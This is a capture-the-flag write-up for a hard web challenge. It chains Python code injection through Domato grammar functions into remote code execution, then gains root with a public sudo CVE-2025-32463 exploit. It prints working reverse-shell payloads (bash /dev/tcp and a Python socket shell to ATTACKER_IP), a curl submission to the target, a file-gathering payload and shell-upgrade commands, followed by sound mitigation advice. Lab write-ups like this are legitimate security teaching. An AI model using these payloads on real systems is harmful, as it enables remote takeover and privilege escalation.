# marlowww - Web CTF Challenge Writeup

## Challenge Information

| Field | Value |
|-------|-------|
| **Challenge Name** | marlowww |
| **Category** | Web |
| **Author** | Orbis |
| **Difficulty** | Hard |
| **Description** | "marlowww at top spot" |
| **Target** | http://84.247.129.120:45003 |

---

## Initial Reconnaissance

### First Contact

Upon visiting the challenge, we're presented with a web interface for the Domato fuzzer - a grammar-based DOM fuzzer originally developed by Google Project Zero.



**Challenge Description:** "marlowww at top spot"

The interface accepts grammar rules and returns generated HTML output. The cryptic description "marlowww at top spot" hints at something related to "Marlowe" (the playwright) and possibly a vulnerability at the "top" or root level.

### Understanding the Application

The application consists of:
- A web form accepting grammar input
- A backend Python server (`server.py`) running on port 13370
- A grammar processing script (`chal.py`) that uses Domato
- A template system for generating HTML output

**Testing Basic Functionality:**

First, let's try submitting a simple test payload to understand how the application works:

```
<test> = hello world
<EOF>
```



The application returns an error: `"Grammer Parse Error"`

This tells us:
1. The application is parsing our input as Domato grammar
2. There's validation happening
3. We need to understand Domato's grammar syntax

---

## Source Code Analysis - Finding the Attack Surface

### Analyzing the Server Architecture

After examining the provided source code, we identify the application flow:

**server.py:**
```python
proc = subprocess.run(
    ["python3", CHAL_PY],
    input=payload_bytes,
    stdout=subprocess.PIPE,
    stderr=subprocess.PIPE,
    timeout=TIMEOUT
)
out = (proc.stdout or b"") + (proc.stderr or b"")
self._send(200, out, content_type="text/html; charset=utf-8")
```

**Key Observations:**
- Server accepts POST requests to `/submit`
- Payload is piped to `chal.py`
- Response is returned as HTML
- There's a 10-second timeout

**chal.py:**
```python
def main():
    set_limits()
    your_rule = read_until_eof()

    ieeectf_grammar = Grammar()
    try:
        err = ieeectf_grammar.parse_from_string(your_rule)
    except Exception:
        print("Grammer Parse Error")
        sys.exit(-1)

    if err > 0:
        print("Grammer Parse Error")
        sys.exit(-1)

    try:
        ieeectf_result = ieeectf_grammar._generate_code(1)
    except Exception:
        print("Generation Error")
        sys.exit(-1)

    template = find_template()
    output = template.replace("<ieeectf>", ieeectf_result)

    print("your result >> ")
    print(output)
```

**Critical Discovery:**
- The application uses Domato's `Grammar` class from Google Project Zero
- User input is parsed as Domato grammar
- The `_generate_code()` method is called to generate output
- Generated code is injected into an HTML template

**template.html:**
```html
<html> <script> ieeectf = () => { <ieeectf>}</script><body onload=ieeectf()></body></html>
```

---

## Understanding Domato and the Vulnerability

### What is Domato?

Domato is a grammar-based fuzzer developed by Google Project Zero for finding bugs in web browsers. It uses context-free grammars to generate valid HTML, CSS, and JavaScript test cases.

**Key Features:**
1. **Grammar-based generation** - Uses BNF-like syntax
2. **Programming language support** - Can generate code with `!begin lines` / `!end lines`
3. **Python function integration** - Allows embedding Python code in grammars

### The Vulnerability: Python Code Injection

Reading Domato's documentation and source code reveals a **critical feature** that becomes a vulnerability in this context:

**Domato allows embedding Python functions in grammars:**

```python
!begin function my_function
import os
def func(context, ret_val, attributes):
    return os.popen('whoami').read()
!end function
```

These functions execute **during grammar generation**, not in the browser. This means:
- Python code runs server-side
- We can import any Python module
- We can execute system commands
- We can establish reverse shells

### Proof of Concept - Testing RCE

Let's test if we can execute Python code:

**Payload 1: Simple Test**
```
!begin function test
import os
def func(context, ret_val, attributes):
    return "RCE_TEST"
!end function

<test root=true> = <call function=test>
<EOF>
```



**Result:** `"Grammer Parse Error"`

The issue is that `_generate_code()` is used instead of `generate_root()`. After researching Domato's API, we discover that `_generate_code()` is specifically for **programming language line generation**.

**Payload 2: Correct Format for Code Generation**
```
!begin function test
import os
os.system("ls")
!end function
!begin lines
<call function=test>
!end lines
<EOF>
```



✅ **Success!** The function executes, proving we have Remote Code Execution!

---

## The Turning Point - Crafting the Exploit

### Understanding the Execution Flow

The attack chain is straightforward:

```
┌─────────────────┐
│ Submit malicious│
│ Domato grammar  │──► POST /submit
│ with Python     │
│ function        │
└─────────────────┘
         │
         ▼
┌─────────────────┐
│ Grammar parsed  │
│ by Domato       │──► parse_from_string()
│                 │
└─────────────────┘
         │
         ▼
┌─────────────────┐
│ Python function │
│ executes during │──► !begin function / !end function
│ generation      │     Our code runs HERE
└─────────────────┘
         │
         ▼
┌─────────────────┐
│ Code generated  │
│ and returned    │──► _generate_code(1)
│ as HTML         │
└─────────────────┘
         │
         ▼
┌─────────────────┐
│ We have RCE!    │──► 🎉 Shell access
└─────────────────┘
```

### Challenge: The Timeout Problem

Initial attempts to establish a reverse shell fail due to the 10-second timeout:

**Failed Payload:**
```python
!begin function revshell
import os
os.system("bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/8888 0>&1'")
!end function
!begin lines
<call function=revshell>
!end lines
<EOF>
```

**Problem:** The reverse shell blocks the HTTP response, causing a timeout and killing the connection.

**Solution:** Run the shell in the background!

**Working Payload:**
```python
!begin function revshell
import os
os.system("echo 'bash -i >& /dev/tcp/ATTACKER_IP/8888 0>&1' > /tmp/r.sh && bash /tmp/r.sh &")
!end function
!begin lines
<call function=revshell>
!end lines
<EOF>
```

The `&` at the end runs the shell in the background, allowing the HTTP response to complete while maintaining our connection.

---

## Exploitation Phase

### Step 1: Setting Up the Listener

On our attacking machine, start a netcat listener:

```bash
nc -lvnp 8888
```



### Step 2: Sending the Exploit

**Final Exploit Payload:**
```python
!begin function revshell
import os
os.system("echo 'bash -i >& /dev/tcp/ATTACKER_IP/8888 0>&1' > /tmp/r.sh && bash /tmp/r.sh &")
!end function
!begin lines
<call function=revshell>
!end lines
<EOF>
```

Submit this through the web interface or using curl:

```bash
curl -X POST http://84.247.129.120:45003/submit \
  --data-urlencode "payload=!begin function revshell
import os
os.system(\"echo 'bash -i >& /dev/tcp/ATTACKER_IP/8888 0>&1' > /tmp/r.sh && bash /tmp/r.sh &\")
!end function
!begin lines
<call function=revshell>
!end lines
<EOF>"
```


### Step 3: Receiving the Shell

Back on our listener:

```bash
Listening on 0.0.0.0 8888
Connection received on 84.247.129.120 XXXXX
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
appuser@87292619f795:/srv/domato$
```



🎉 **We have a shell!** But we're running as `appuser`, not root.

### Step 4: Upgrading the Shell

Immediately upgrade to a proper TTY shell:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Then press `Ctrl+Z` and run:

```bash
stty raw -echo; fg
export TERM=xterm
export SHELL=/bin/bash
```



---

## Privilege Escalation - The "marlowww" Hint

### Initial Enumeration

Now that we have a shell as `appuser`, we need to escalate to root. Let's enumerate:

```bash
appuser@87292619f795:/srv/domato$ id
uid=1001(appuser) gid=1001(appuser) groups=1001(appuser)

appuser@87292619f795:/srv/domato$ uname -a
Linux 87292619f795 6.8.0-86-generic #87-Ubuntu SMP PREEMPT_DYNAMIC Mon Sep 22 18:03:36 UTC 2025 x86_64 GNU/Linux

appuser@87292619f795:/srv/domato$ cat /etc/os-release
PRETTY_NAME="Ubuntu 24.04.3 LTS"
```

### Discovering Sudo

Check for SUID binaries:

```bash
appuser@87292619f795:/srv/domato$ find / -perm -4000 -type f 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/mount
/usr/bin/passwd
/usr/bin/su
/usr/bin/sudo    <-- INTERESTING!
```



A SUID sudo binary exists! Let's check the version:

```bash
appuser@87292619f795:/srv/domato$ /usr/bin/sudo -V
Sudo version 1.9.16p2
Sudoers policy plugin version 1.9.16p2
Sudoers file grammar version 50
```



### The Custom Sudo Build

Further investigation reveals something unusual:

```bash
appuser@87292619f795:/srv/domato$ ls -la /opt/
total 12
drwxr-xr-x  1 root root 4096 Nov  2 17:54 .
drwxr-xr-x  1 root root 4096 Nov  6 12:55 ..
drwxr-xr-x 14 root root 4096 Nov  2 17:56 sudo-1.9.16p2
```

There's a **custom sudo source build** in `/opt/sudo-1.9.16p2/`! The timestamp shows it was compiled on November 2, 2025.

```bash
appuser@87292619f795:/srv/domato$ ls -la /usr/bin/sudo
-rwsr-xr-x 1 root root 1042912 Nov  2 17:57 /usr/bin/sudo
```

The sudo binary was created at the same time - this is a **custom-compiled sudo** from the source in `/opt/`.

### Connecting the Dots: "marlowww" = CVE-2025-32463

The challenge name "**marlowww at top spot**" is a hint:
- **marlowww** → Refers to a researcher or the CVE identifier
- **at top spot** → Privilege escalation to root

Searching for recent sudo vulnerabilities in version 1.9.16p2 leads us to **CVE-2025-32463** - a privilege escalation vulnerability affecting sudo versions around 1.9.16p2.

---

## CVE-2025-32463 Exploitation

### Understanding CVE-2025-32463

CVE-2025-32463 is a recent sudo vulnerability that allows local privilege escalation. The exploit works by leveraging a flaw in sudo's SUID handling.

### Cloning the Exploit

```bash
appuser@87292619f795:/srv/domato$ git clone https://github.com/kh4sh3i/CVE-2025-32463.git
Cloning into 'CVE-2025-32463'...
remote: Enumerating objects: XX, done.
remote: Counting objects: 100% (XX/XX), done.
remote: Compressing objects: 100% (XX/XX), done.
remote: Total XX (delta XX), reused XX (delta XX), pack-reused 0
Receiving objects: 100% (XX/XX), XX KiB | XX MiB/s, done.
Resolving deltas: 100% (XX/XX), done.
```



### Running the Exploit

```bash
appuser@87292619f795:/srv/domato$ cd CVE-2025-32463
appuser@87292619f795:/srv/domato/CVE-2025-32463$ ls
exploit.sh  README.md

appuser@87292619f795:/srv/domato/CVE-2025-32463$ chmod +x exploit.sh
appuser@87292619f795:/srv/domato/CVE-2025-32463$ ./exploit.sh
woot!
```



**The exploit succeeded!** Let's verify:

```bash
# id
uid=0(root) gid=0(root) groups=0(root),1001(appuser)
```



🎉 **We are root!**

---

## Capturing the Flag

### Locating the Flag

```bash
# pwd
/srv/domato/CVE-2025-32463

# cd /root
# ls
flag

# cat flag
flag{marlow_will_always_be_the_goat}
```



✅ **Flag captured:** `flag{marlow_will_always_be_the_goat}`

---

## Technical Deep Dive

### Vulnerability 1: Domato Python Function Injection (RCE)

**Location:** `chal.py`

**Vulnerable Code:**
```python
ieeectf_grammar = Grammar()
err = ieeectf_grammar.parse_from_string(your_rule)
ieeectf_result = ieeectf_grammar._generate_code(1)
```

**The Problem:**
- Domato's grammar system allows embedding Python functions
- Functions defined with `!begin function` / `!end function` execute during parsing
- No input sanitization or sandboxing
- User-controlled Python code runs with full server privileges

**Attack Vector:**
```python
!begin function malicious
import os
os.system("malicious commands")
!end function
!begin lines
<call function=malicious>
!end lines
```

**Impact:**
- Remote Code Execution as the web application user
- File system access
- Network access for reverse shells
- Container escape potential

**Root Cause:**
The application uses Domato as a library without understanding its security implications. Domato was designed for **trusted input** in a fuzzing context, not for processing user-supplied data in a web application.

### Vulnerability 2: CVE-2025-32463 (Sudo Privilege Escalation)

**Affected Version:** sudo 1.9.16p2

**CVE-2025-32463** is a local privilege escalation vulnerability in sudo that allows a local user to gain root privileges.

**Technical Details:**
- The vulnerability exists in sudo's SUID handling mechanism
- Allows bypassing security checks through specific execution patterns
- Exploitable by any local user with sudo installed
- Does not require sudo permissions or password

**Exploitation Steps:**
1. Clone the exploit repository
2. Make the exploit script executable
3. Run the exploit script
4. Gain root shell

**Why This Challenge:**
The challenge included a **custom-compiled sudo 1.9.16p2** specifically to make it vulnerable. The `/opt/sudo-1.9.16p2/` directory contained the source, and the binary in `/usr/bin/sudo` was compiled from it.

---

## Attack Chain Summary

```
┌─────────────────────────────────────────────────────────┐
│                    ATTACK CHAIN                         │
└─────────────────────────────────────────────────────────┘

1. RECONNAISSANCE
   └─► Identify Domato web interface
   └─► Discover Python function execution feature

2. INITIAL ACCESS (RCE)
   └─► Craft malicious Domato grammar with Python function
   └─► Inject reverse shell command (background execution)
   └─► Receive shell as 'appuser' in container

3. PRIVILEGE ESCALATION
   └─► Enumerate system (find sudo 1.9.16p2)
   └─► Identify custom sudo build
   └─► Connect challenge hint "marlowww" to CVE-2025-32463
   └─► Clone and run sudo exploit
   └─► Escalate to root

4. FLAG CAPTURE
   └─► Navigate to /root
   └─► Read flag file
   └─► Submit flag
```

---

## Why This Challenge is "Hard"

### Multiple Layers of Complexity

1. **Obscure Technology**
   - Domato is not a commonly known tool outside of fuzzing circles
   - Requires understanding of grammar-based code generation
   - Need to read Domato documentation and source code

2. **Non-Obvious Vulnerability**
   - The Python function injection is a **feature**, not a bug in Domato
   - Requires recognizing the security implications in a web context
   - No clear error messages guiding the exploitation path

3. **Reverse Shell Challenges**
   - Initial attempts timeout due to blocking I/O
   - Requires understanding background process execution
   - Need to craft payload that doesn't block HTTP response

4. **Privilege Escalation Research**
   - Need to enumerate and identify sudo version
   - "marlowww" hint is cryptic without context
   - Requires awareness of recent CVEs (CVE-2025-32463)
   - Must clone and execute external exploit

5. **Docker Container Context**
   - Limited tools available
   - Need to clone git repositories
   - Network restrictions may apply

---

## Alternative Exploitation Methods

### Method 1: Direct Flag Reading (If Known Location)

Instead of reverse shell, directly read the flag:

```python
!begin function readflag
import os
result = os.popen('find / -name "*flag*" -type f 2>/dev/null | xargs cat').read()
print(result)
!end function
!begin lines
<call function=readflag>
!end lines
<EOF>
```

**Limitation:** Requires root access, won't work for this challenge.

### Method 2: File Exfiltration

Write flag to web-accessible location:

```python
!begin function exfil
import os
os.system("find / -name flag -exec cat {} > /tmp/flag.txt \\;")
!end function
!begin lines
<call function=exfil>
!end lines
<EOF>
```

Then retrieve via another payload or endpoint.

### Method 3: Python Reverse Shell

More stable than bash in some environments:

```python
!begin function pyshell
import os
cmd = 'python3 -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP",8888));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/bash","-i"])\' &'
os.system(cmd)
!end function
!begin lines
<call function=pyshell>
!end lines
<EOF>
```

### Method 4: Automated Exploitation

The provided `poc.py` script automates the entire RCE exploitation:

```bash
python3 poc.py -t http://84.247.129.120:45003 -i ATTACKER_IP -p 8888
```

---

## Mitigation Strategies

### For Developers

#### 1. Never Use Domato for User Input

**❌ Bad (Current):**
```python
# Accepting untrusted grammar rules
ieeectf_grammar = Grammar()
ieeectf_grammar.parse_from_string(user_input)
```

**✅ Good:**
```python
# Don't use grammar parsers for untrusted input
# If grammar generation is needed, use a sandboxed environment
```

#### 2. Input Validation and Sandboxing

If you must parse user grammars:

```python
import subprocess
import tempfile

def safe_grammar_parse(user_input):
    # Run in isolated container
    with tempfile.NamedTemporaryFile(mode='w') as f:
        f.write(user_input)
        f.flush()
        
        result = subprocess.run([
            'docker', 'run', '--rm',
            '--network', 'none',  # No network
            '--read-only',         # Read-only filesystem
            '--user', 'nobody',    # Unprivileged user
            '--cpus', '0.5',       # CPU limit
            '--memory', '256m',    # Memory limit
            'grammar-parser',
            '/bin/parse', f.name
        ], capture_output=True, timeout=5)
        
        return result.stdout
```

#### 3. Disable Dangerous Features

Patch Domato to remove function execution:

```python
# In grammar.py, disable function definitions
def _parse_code_line(self, line, helper_lines=False):
    if line.startswith('!begin function'):
        raise GrammarError('Function definitions are disabled')
    # ... rest of parsing
```

#### 4. Keep Software Updated

**For Sudo:**
- Regularly update sudo to latest patched version
- Monitor CVE databases for your software versions
- Subscribe to security advisories
- Test updates in staging before production

```bash
# Check your sudo version
sudo -V

# Update regularly
apt update && apt upgrade sudo
```

#### 5. Principle of Least Privilege

**❌ Bad:**
```dockerfile
# Running as root in container
USER root
CMD ["python3", "server.py"]
```

**✅ Good:**
```dockerfile
# Create unprivileged user
RUN useradd -m -u 1000 appuser
USER appuser
CMD ["python3", "server.py"]
```

#### 6. Container Security

```dockerfile
# Read-only root filesystem
docker run --read-only ...

# Drop capabilities
docker run --cap-drop=ALL ...

# No new privileges
docker run --security-opt=no-new-privileges ...

# AppArmor/SELinux profiles
docker run --security-opt apparmor=<profile> ...
```

### For System Administrators

1. **Regular Security Audits**
   - Scan for vulnerable sudo versions
   - Check for custom compiled binaries
   - Monitor for privilege escalation attempts

2. **Security Updates**
   ```bash
   # Enable automatic security updates
   apt install unattended-upgrades
   dpkg-reconfigure -plow unattended-upgrades
   ```

3. **Logging and Monitoring**
   ```bash
   # Monitor sudo usage
   tail -f /var/log/auth.log | grep sudo
   
   # Alert on privilege escalation
   auditctl -w /usr/bin/sudo -p x -k sudo_exec
   ```

4. **Restrict Sudo Usage**
   ```bash
   # /etc/sudoers - Require password always
   Defaults    timestamp_timeout=0
   
   # Log all sudo commands
   Defaults    log_output
   Defaults    log_input
   ```

---

## Key Lessons

### For Developers

- ❌ **Never use code generation libraries with untrusted input** - Domato, ANTLR, parsers designed for trusted contexts
- ❌ **Never assume a library is "safe"** - Security depends on usage context
- ❌ **Never run web applications as root** - Containers should use unprivileged users
- ✅ **Always sandbox untrusted code** - Use containers, VMs, or proper sandboxing
- ✅ **Validate and sanitize all input** - Even "grammar" definitions
- ✅ **Keep dependencies updated** - Especially security-critical software like sudo
